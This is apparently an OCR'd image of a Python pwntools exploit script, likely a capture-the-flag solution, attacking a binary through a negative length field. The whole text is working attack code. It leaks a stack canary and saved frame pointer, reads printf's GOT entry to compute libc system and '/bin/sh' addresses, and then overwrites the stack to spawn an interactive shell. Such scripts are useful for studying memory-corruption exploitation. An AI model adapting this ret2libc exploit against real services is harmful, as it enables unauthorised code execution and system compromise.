 ```python

############################################

def send(name, length, message):
  s.recv()
  s.send(name)
  s.recv()
  s.sendline(length)
  s.recv()
  s.send(message)

payload = "A"*33

send("n", "-1", payload)
s.recvuntil(payload)
canary = u32("\x00" + s.recv(3))

print "############################################"
print "[*] canary : " + hex(canary)

payload = "A"*44

send("n", "-1", payload)
s.recvuntil(payload)
ebp = u32(s.recv(4))

print "[*] ebp : " + hex(ebp)

payload = "A"*52
payload += p32(printf_got) # name_pointer
payload += p32(0x500) # name_len
payload += p32(0x5) # max_count

send("n", "-1", payload)
s.recvuntil("<")
real_printf = u32(s.recv(4))

real_base = real_printf - printf_off
real_system = real_base + system_off
real_binsh = real_base + binsh_off

print "[*] real_base : " + hex(real_base)
print "[*] real_printf : " + hex(real_printf)
print "[*] real_system : " + hex(real_system)
print "[*] real_binsh : " + hex(real_binsh)
print "############################################"

payload = "A"*32
payload += p32(canary)
payload += "A"*16
payload += p32(ebp-256) # name_pointer

send("n", "-1", payload)
s.recv()

payload = p32(real_system)
payload += "AAAA"
payload += p32(real_binsh)

s.send(payload)
s.recv()

s.interactive()
```